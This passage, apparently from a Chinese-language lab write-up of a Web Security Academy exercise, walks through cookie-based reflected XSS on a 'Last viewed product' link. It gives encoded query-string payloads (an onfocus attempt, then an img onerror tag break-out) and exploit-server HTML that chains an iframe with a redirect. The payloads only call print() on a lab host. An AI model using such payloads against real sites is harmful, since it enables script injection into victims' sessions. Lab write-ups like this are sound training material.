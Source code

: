 並且重整後，會在右上角看到

```html
<a
  href="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1"
  >Last viewed product</a
>
```

構造以下 querystring

- decode：`?productId=1&xss=' tabindex=0 autofocus onfocus='print()`
- encode：`?productId=1&xss='%20tabindex=0%20autofocus%20onfocus=%27print()`

在 exploit-server 構造以下 html

```html
<html>
  <head></head>
  <body>
    <iframe
      src="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss='%20tabindex=0%20autofocus%20onfocus=%27print()"
    ></iframe>
  </body>
</html>
```

View exploit => 看到 `Blocked autofocusing on a <a> element in a cross-origin subframe.`，看來這題沒這麼好解...

改成注入新的 DOM 試試看

- decode： `?productId=1&xss='></a><img src='x' onerror='print()'/><a href='`
- encode： `?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27`

由於第一次進入商品頁會寫入 `document.cookie`，第二次進入商品頁才會觸發 XSS，所以我們需要先用 `<iframe>` 模擬第一次的載入，在 exploit-server 構造以下 html

```html
<html>
  <head></head>
  <body>
    <script>
      function redirectToVulnPage() {
        location.href =
          "https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27";
      }
    </script>
    <iframe
      src="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27"
      onload="redirectToVulnPage()"
    ></iframe>
  </body>
</html>
```
